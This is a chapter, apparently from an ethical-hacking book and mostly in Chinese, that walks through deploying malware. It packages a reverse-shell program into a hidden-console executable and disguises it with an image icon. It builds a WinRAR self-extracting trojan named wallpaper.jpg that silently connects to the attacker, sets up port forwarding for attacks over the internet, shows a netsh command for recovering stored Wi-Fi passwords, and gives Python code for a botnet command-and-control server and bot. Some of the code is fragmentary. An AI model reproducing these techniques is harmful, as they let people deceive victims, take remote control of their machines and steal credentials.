# 8

## 后渗透

在第 7 章“高级恶意软件”中，我们学习了如何为恶意软件程序添加一些高级功能。你可以根据自己的需要为恶意软件添加任意数量的功能。代码编写完成后，接下来就是实现部分。你如何打包恶意软件并使其便于部署？在本章中，我们将了解恶意软件部署的以下方面：

- 打包恶意软件
- 了解木马
- 通过公网 IP 发起攻击
- 破解密码
- 窃取密码
- 创建僵尸网络

### 打包恶意软件

我们在第 7 章“高级恶意软件”中开发的程序是一个 Python 文件，它还包含一些依赖项。在没有物理访问权限的情况下，很难在受害者的机器上运行 Python 文件。这使得我们的程序不太实用，除非我们有办法将所有内容打包成一个可执行文件，将其发送给受害者；当受害者打开它时，它会向黑客的电脑建立反向 shell。

将 Python 代码打包成可执行文件，需要同时包含程序的所有依赖项。这正是我们使用*虚拟环境*的原因。虚拟环境使程序能够将所有依赖项保存在一起，这样当我们打包代码时，包括 Python 解释器在内的一切都会被包含在可执行文件中，因此我们无需在受害者电脑上安装任何东西，程序即可完美运行。

### 了解 pyinstaller 库

幸运的是，有一种方法可以实现上述目标。这需要使用一个名为 `pyinstaller` 的 Python 库。它可以帮助我们将代码打包成一个漂亮的二进制可执行文件，在 Windows 上扩展名为 `.exe`。要安装 `pyinstaller`，请执行以下命令：

```
pip install pyinstaller
```

请注意，此命令应在启用虚拟环境的情况下安装，以便我们拥有所有必需的依赖项。打开你的高级恶意软件（受害端程序）并启用虚拟环境。完成后，使用上述命令安装 `pyinstaller`。

如果你还没有创建虚拟环境，可以在 Python 恶意软件文件所在的文件夹中运行以下命令来创建它：

```
python -m venv myenv
```

稍等片刻，等待安装完成。完成后，你可以通过启动一个新终端，或在脚本文件夹或 `myenv` 中运行 `activate.bat` 脚本，来激活环境。

如果你成功激活了 Python 环境，你将看到类似下面的内容：


图 8.1 – Python 环境已启用

请注意，我们在高级恶意软件中使用了一个外部依赖项 `pyautogui`。我们也需要将这个依赖项安装到虚拟环境中。如果你的恶意软件添加了任何其他需要外部依赖项的功能，也请一并安装。所有依赖项安装完成后，就可以在虚拟环境中使用 `pip install pyinstaller` 安装 `pyinstaller`。如果一切操作正确，在命令终端中输入 `pyinstaller`，你应该会看到以下输出：



图 8.2 – pyinstaller 安装

在图 8.2 中，你可以看到 pyinstaller 的可用选项列表。接下来，要生成可执行文件，请输入 pyinstaller -onefile advanced_malware.py。这会将所有代码及其依赖项编译成单个文件，并创建如下文件夹结构：



图 8.3 – 文件夹结构

你需要注意的文件夹是 dist 文件夹，它代表 distribution（分发）。你的可执行文件将位于此处。继续，在文件资源管理器中打开这个文件夹：



图 8.4 – 可执行文件

你会发现一个与你的 Python 文件名同名的可执行文件，其扩展名为 .exe。现在，如果你在黑客程序运行的同时直接运行这个文件，你就会收到一个反向连接。无论受害者系统上是否安装了 Python，这个可执行文件都能正常运行。继续，运行你的黑客程序，然后双击这个可执行文件将其打开。黑客程序将显示如下：



类似地，在受害者的电脑上，你会看到一个带有类似界面的控制台弹出窗口：



如果你仔细查看图 8.6 的顶部，会看到正在运行的可执行文件的名称。你可以清楚地看到，现在运行的是一个可执行文件，而不是 Python 脚本，同时达到了相同的目标。

不过，这里有一个小问题。如果受害者点击这个可执行文件，他们会看到一个命令提示符弹出，显示正在发生的一切，这显然不是我们想要的，因为这会提醒受害者有事情正在发生。我们希望这一切在后台进行，让受害者完全不知道发生了什么。为了隐藏控制台，我们可以向命令添加以下参数：

```
pyinstaller --onefile --noconsole advanced_malware.py
```


如果在黑客程序运行时现在点击可执行文件，你会看到屏幕上没有任何反应，因为没有弹出控制台窗口，不过连接会在后台建立。你可以通过打开任务管理器来查看可执行文件是否在后台运行：



图 8.7 – 后台进程

在前面的截图中的后台进程中，你可以看到程序正在运行，并且连接将被建立。请注意，如果你的程序在受害者机器上不能正确运行命令，请前往你的受害者程序，在你执行系统命令的地方添加以下参数：stdin=subprocess.DEVNULL。完整的命令将如下所示：

```
output = subprocess.run(["powershell.exe", hacker_command], shell=True, capture_output=True, stdin=subprocess.DEVNULL)
```

出现此错误的原因是控制台的标准输入未得到妥善处理。如果你运行黑客程序上的任何命令，它应该能正常运行。以下示例是我运行 dir 命令的情况：



图 8.8 – 在“noconsole”模式下执行命令

现在我们已经创建了一个相当隐蔽的恶意软件，它可以在受害者计算机上后台运行，并让我们控制受害者 PC。但这个程序仍有一个小问题，即它需要用户点击恶意软件可执行文件，这取决于受害者，难度可能不同或容易。如果用户不是很懂技术，你可以很容易地诱骗他们运行它，否则会很困难。现在我们将讨论转向特洛伊木马以及它们的工作原理。我们将在下一节中构建一个小型特洛伊木马恶意软件。

## 理解特洛伊木马

在上一节中，我们创建了一个可执行文件，可以单次点击运行，然后你将与受害者建立反向连接，但这需要受害者手动打开并点击可执行文件。这里就出现了特洛伊木马的概念。特洛伊木马是一种以非常不起眼的方式隐藏的恶意软件程序。通常，这些特洛伊木马恶意软件会与合法软件合并或捆绑在一起，并在受害者尝试打开合法应用程序或文件时运行。你会发现很多时候，这些病毒会与 PDF 或图像文件合并。将恶意软件隐藏在特洛伊木马中是一项复杂的工作，因为很多时候，你所学到的技巧会在你所使用的软件的更新中迅速被修补。例如，假设你发现了软件中的一个漏洞，允许你在文件中嵌入恶意软件。除非你是第一个发现此漏洞的人，否则很有可能在一天或两天内就会被修补。

## 为可执行文件添加图标

如果我们查看上一节中开发的可执行文件，它有一个 Python 图标，这可能使其看起来像是一个 Python 可执行文件。这对于黑客目的来说不是很有帮助，因为它很容易被检测到。一个办法是向可执行文件添加图像图标，使其看起来像图像而不是可执行文件。这会让用户看起来像是在点击打开图像，而实际上他们正在运行可执行文件。我们可以使用 pyinstaller 添加图标。为此，我们需要一个扩展名为 .ico 的图像。

取任意图像并将扩展名转换为 .ico。你可以使用任何在线工具进行转换，应该很容易。我将使用以下示例网站将我的图像转换为 ICO 格式：online-convert.com。

转换图像后，将转换后的文件放置在受害者恶意软件程序所在的同一目录中。完成后，你可以使用以下命令为可执行文件添加图标。

你可以将文件命名为 icon.ico 并为 pyinstaller 编写以下命令：

```
pyinstaller --onefile --noconsole -icon=icon.ico advanced_malware.py
```

如果打开 dist 文件夹，你会看到，现在可执行文件不再是 Python 图标，而是取决于你选择的图像的不同图标。我的文件看起来像这样：



在前面的截图中，你可以看到图标现在已经改变，现在很容易诱骗受害者点击此文件。现在如果你点击此文件，你会看到它会建立到黑客的后台连接，你可以通过 Windows 中的任务管理器进行验证。

## 创建你自己的特洛伊木马

前面的特洛伊木马在某些情况下会起作用，应该足够了。然而，当用户点击后受害者计算机上没有任何反应时，用户可能会猜到有些不对劲。理想情况下，我们希望用户点击可执行文件时打开一个图像，并同时建立回黑客的连接。这样，用户认为他们只是打开了图像，而实际上，他们打开了图像并同时创建了到黑客的反向 shell。在本节中，我们将尝试进一步隐藏我们的恶意软件。

要创建恶意软件特洛伊木马，你需要四项内容，如下所示：

- 1. 带有图标的恶意软件可执行文件
- 2. *WinRAR* 程序
- 3. 用于图标的图像，格式为 .jpg
- 4. 带有 .ico 扩展名的图标图像

从此网站安装 *WinRAR* 软件：https://www.win-rar.com/。

过程应该很简单。完成后，将可执行文件（1）、图像（3）和图标（4）复制到一个新文件夹中。我创建了一个名为 trojan 的新文件夹并将所有三项粘贴在其中：



图 8.10 – 特洛伊木马内容

第一个 advanced_malware.exe 是可执行文件，第二个是图标文件，第三个是用于图标的 .jpg 图像。

现在选择所有三个文件，右键单击选择添加到压缩文件选项：



图 8.11 – 添加到压缩文件

这将打开一个新的对话框。它看起来像这样：



图 8.12 – WinRAR 对话框

让我们将文件重命名为 wallpaper.jpg。选择压缩方式为最佳，并勾选创建 SFX 压缩包框。现在进入高级选项卡并打开 SFX 选项。

它将打开一个新的对话框。进入更新选项卡并选择提取并更新文件和覆盖所有文件：

然后进入模式选项卡并勾选解压到临时文件夹，并同时选择隐藏所有以实现静默模式：



图 8.15 – SFX 模式

最后，进入设置选项卡并在提取后运行字段中写入以下内容：



图 8.16 – 提取后运行

这将允许我们在提取完成后按顺序运行文件。首先，我们将打开向受害者显示的实际图像，并在后台同时运行恶意软件，这将为黑客提供反向连接。

现在一切都已按我们的需求设置好。只需点击确定创建压缩文件，它将在同一文件夹中创建一个名为 wallpaper.jpg 的新文件。表面上，它看起来像一个普通的图像文件，但如果你打开它，你会看到它会创建反向连接，如果你正在运行黑客服务器：



图 8.17 – 特洛伊木马

在图 8.16 中，你可以看到我们创建了一个名为 wallpaper.jpg 的特洛伊木马。如果你仔细观察，你会看到它具有应用程序类型，但在 Windows 中，扩展名默认是隐藏的，我们已将其命名为 wallpaper.jpg 使其看起来像图像。并且如果你点击该图像，它将打开图像并同时与黑客建立反向连接。继续自己尝试吧。我们的当前恶意软件攻击到目前为止只在私有 IP 上起作用。在下一节中，我们将学习如何在公共 IP 上执行相同的攻击。

## 通过公共 IP 进行攻击

到目前为止，我们所做的所有攻击都在本地网络上。这要求你、黑客和受害者连接到同一网络。对于许多攻击场景来说，这可能并非如此。这就是公共 IP 发挥作用的地方。我们在讨论网络介绍时已经了解了公共和私有 IP 地址。为了进行成功的攻击，我们需要知道黑客的公共 IP。在黑客机器上，你可以通过访问 google.com 并输入 my public ip 来找到你的公共 IP，这将显示你的公共 IP 地址，前提是你没有使用任何 VPN 或网络伪装方案。它将是一个类似 32 位的地址，由你的 ISP 提供。我的公共 IP 是 31.38.10.X。最后 8 位因隐私问题被屏蔽。你的 IP 将根据你所在的位置而不同。找到它应该不会太困难。一旦你有了公共 IP 地址，请前往受害者程序，并用黑客的公共 IP 地址代替黑客的私有 IP 地址。


我们的谜题的第一部分已经完成。下一部分是让数据包成功到达黑客机器。黑客必须能够在指定的端口上接收数据包。为此，黑客必须在其路由器设置中启用*端口转发*。出于安全目的，大多数路由器设置中默认会禁用端口转发。但是，如果你知道路由器面板的密码，你就可以这样做。为了访问这些设置，找到你的 Wi-Fi 路由器，很可能在路由器的背面会有一张贴纸，上面写着路由器的服务器地址。它会像 192.168.1.1 或类似的东西。请注意，这将取决于你的具体路由器，我无法提供给你。路由器上还写有密码和用户名。进入你的路由器设置页面。

一旦进入路由器设置，找到**端口转发**设置。这些将取决于你的路由器。在那里你会看到一个选项，选择要将数据包转发到哪个端口。输入你为黑客程序使用的端口号并保存设置。现在你就完成了，你也可以通过公共 IP 进行攻击。这将帮助你攻击不在本地网络中的受害者。

## 破解密码

在本节中，我们将学习如何使用密码数据库破解受密码保护的文件。我们将在本节中尝试破解一个 ZIP 文件。ZIP 文件是一种二进制格式，用于以压缩格式存储文件，并且可以受密码保护。我们将进行字典攻击。让我们先学习什么是字典攻击！

字典攻击是一种攻击，黑客通过使用一组预定义的密码来猜测受害者的密码。他们通常有一个存储在文件中的非常大的密码数据库，并尝试使用其中一个密码来查看受害者的密码是否与密码列表匹配。此密码列表通常是从被入侵网站和其他论坛的密码泄露中获得的。这就是为什么你永远不应该对一个网站重复使用密码超过一次。如果你对一个网站使用相同的密码并且该网站被入侵，很可能你所有的密码都可能被泄露。

你可以在这里找到最常用的密码列表：https://github.com/danielmiessler/SecLists。

该列表包含大约 1000 万个密码，并且会定期更新。如果用户使用的是存储在此文件中的密码，你可以轻松破解它。

我已从前面提到的 GitHub 仓库下载了一个文件。让我们看看其内容。

```
break
```

```
except Exception as err:
```

```
pass
```

在之前的代码中，我们逐个读取密码并进行测试。请注意，为了测试密码，它应为二进制形式而不是字符串格式。如果密码不匹配，我们只需引发异常并转到下一个密码。如果匹配，我们打印找到匹配的语句并中断循环，如果你查看目录，你会看到将创建一个新文件夹，其中包含未加密的文件：



图 8.19 – 密码破解

在这里我们测试各种密码，当密码匹配时，我们提取文件并中断循环，正如你清楚地看到密码是 qwerty。在本节中，我们学习了如何破解受密码保护的文件。在下一节中，我们将学习如何创建僵尸网络以及它们如何对我们有用。

## 盗取密码

在本节中，我们将看到如何窃取存储在受害者 PC 上的 Wi-Fi 密码。请注意，我们已经讨论过如何使用我们的黑客程序在 Windows 机器上执行命令。我们可以利用此程序来检索 Wi-Fi 密码。请注意，你的虚拟操作系统可能未安装 Wi-Fi 驱动程序。我已安装此驱动程序。如果你愿意，你也可以为此目的使用你的主机 PC。

为了访问受害机器上存储的接入点，你需要运行以下命令：

```
netsh wlan show profiles
```

如果你在命令提示符中运行此命令，你将看到你用 PC 连接过的所有接入点。但我们想要访问密码，而不是接入点。这是我的 PC 的屏幕截图：



图 8.20 – 已连接的接入点

为了获取密码，你必须写下接入点的名称并给命令添加一个额外的参数，key=clear。完整的命令将如下所示：

```
netsh wlan show profiles "POCO X3 NFC" key=clear
```

你将看到类似的输出：



图 8.21 – 检索密码

安全设置中的最后一个字段是该接入点的明文密码。如果你已在虚拟操作系统（Windows）上安装了 Wi-Fi 驱动程序，你也可以用你的恶意软件程序运行这些命令。

## 创建僵尸网络

在第 7 章《高级恶意软件》中，我们开发了一个恶意软件程序，其中包含一个黑客和一个受害者程序。这在你想要对特定目标进行攻击时很有用。然而，在很多情况下，你希望有一个命令和控制中心供黑客使用，以及在不同机器上运行的许多受害者程序并与一个黑客程序通信，黑客能够远程控制这些设备。这些就是我们所说的僵尸网络。僵尸网络是运行在不同机器上的小型程序，并与一个命令和控制中心通信。它们被用于许多恶意目的，例如分布式拒绝服务（DDoS）攻击，你可以通过同时生成数百万个请求使某个网站离线，或使用计算机资源来挖掘加密货币，等等。

让我们开始创建我们自己的僵尸网络，然后创建不同的机器人以与命令和控制中心通信。我们将编写两个程序：一个将称为 Cnc.py 用于命令和控制中心。这将与黑客程序具有相同的目的。另一个将称为 bot1.py。你可以创建任意数量的机器人，然而，为了说明目的，我将只创建一个机器人。

创建一个名为 bots 的新项目并创建一个名为 Cnc.py 的新 Python 文件。

这应该在 Kali 机器上创建。

我们需要之前使用过的相同的 socket 库。让我们从导入开始：

```
import socket
from threading import Thread
import time
```

由于我们想要创建多个机器人，我们为每个不同的机器人使用线程。线程用于创建并发运行的单独线程。

接下来，我们将创建一个线程列表和客户端列表。客户端在我们的例子中将是机器人：

```
threads = []
clients = []
```

接下来，我们将创建一个名为 listen_for_bots() 的函数，其名称表明它将监听传入的机器人连接：

```
def listen_for_bots(port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.bind(("", port))
    sock.listen()
    bot, bot_address = sock.accept()
    clients.append(bot)
```

这与我们之前编写黑客程序时所做的非常相似。唯一的区别是，一旦客户端连接，我们将其添加到客户端列表中，以便我们可以将此连接用于各种目的，就像我们在黑客程序中所做的那样。

现在我们定义一个 main() 函数，其中将包含我们所有的逻辑：

```
def main():
    print("[+] Server bot waiting for incoming connections")
    starting_port = 8085
    bots = 3
```

我们定义想要使用的端口。请注意，这是一个 starting_port，我们将为不同的客户端使用不同的端口。我们只需为每个新客户端将此数字加 1。变量 bots=3 表明我们只想连接三个机器人，然而，你可以添加任意数量的客户端：

```
for i in range(bots):
    t = Thread(target=listen_for_bots, args=(i + starting_port, ), daemon=True)
    threads.append(t)
    t.start()
```

接下来，我们将循环运行这些线程。Daemon=True 意味着我们希望将其作为后台进程运行。然后我们将每个线程附加到一个列表中，以便我们可以访问该线程。


Next, we will run a loop for the command-and-control center. While the clients are connected, we will display the clients and ask the hacker to select the client they want to interact with. Next, we run an internal loop for each bot, which will help us send messages to each bot individually by accessing the element in the list. Here you can define your own logic for a bot. You can send commands over to the bot and run those commands on the PC that the bot is running on. The rest is left up to you to define the functionality as you want. Here we are simply sending a message. Once you have achieved your objective, you can remove the client from the list:

```
run_cnc = True
    while run_cnc:
        if len(clients) != 0:
            for i, c in enumerate(clients):
                print("\t\t", i, "\t", c.getpeername())

                selected_client = int(input("[+] Select client by index: "))
                bot = clients[selected_client]
                run_bot = True
                while run_bot:
                    msg = input("[+] Enter Msg: ")
                    msg = msg.encode()
                    bot.send(msg)
                    if msg.decode() == "exit":
                        run_bot = False
                status = bot.recv(1024)
                if status == "disconnected".encode():
                    bot.close()
                    clients.remove(bot)


                print("data sent")
        else:
            print("[+] No clients connected")
        ans = input("[+] Do you want to exit? press [y/n] ")
        if ans == "y":
            run_cnc = False
```

```
else:
    run_cnc = True
```

Now we have defined a basic structure for the command-and-control center. The complete code for the bot can be found at the following link:

```
https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/CnC.py
```

Next, we will define the logic for our bot.

Go to the victim computer and create a new file called bot1.py. We will create a socket object and try to communicate with the hacker using the hacker's IP. This step is similar to the malware program we developed earlier:

```
import socket


if __name__ == "__main__":
    print("[+] Connecting with server")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.0.11", 8085))
```

Next, we will create a loop for run_bot and try to receive messages that the CNC is sending and once the message is received, you can define your own logic here. Here we will simply print the message, but you can add functionality to your liking. Once the CNC sends an exit message, we can simply disconnect the client bot from the server. The code is listed as follows:

```
run_bot = True
    while run_bot:
        communicate_bot = True
        while communicate_bot:
            msg = s.recv(1024)
            msg = msg.decode()
            print("command center said: ", msg)
            if msg == "exit":
                communicate_bot = False
        # ans = input("[+] do you want to remain connected: ")
        ans = "connected"
        if ans == "no":
```

```
status = "disconnected"
s.send(status.encode())
run_bot = False
else:
    status = "connected".encode()
s.send(status)
s.close()
```

The complete code for bot1.py is given at the following link:

```
https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example13-CNC/bot1.py
```

In this section, we have learned how to create a command-and-control center for bot net clients. You can add any number of clients you want and control them all together with your CNC program.

## Summary

In this chapter, we learned about some methods for how to successfully deploy your malware programs. An important aspect of a malware program is how stealthy it is. This chapter focused on hiding your malware inside images. We learned about malware attacks over a public IP and how a hacker can attack victims that are not present in the same network as the victim. We then learned how to crack a password-protected file using a dictionary attack. Lastly, we learned how to create a command-and-control center for botnet-based attacks. These attacks allow the hacker to control a large number of distributed devices with only one program. After going through this chapter, you should be able to create trojans, perform attacks over a public IP, and create your own botnets. In the next chapter, we will learn how you can protect your online identity as a hacker and how important this aspect is to a successful attack. See you in the next chapter!
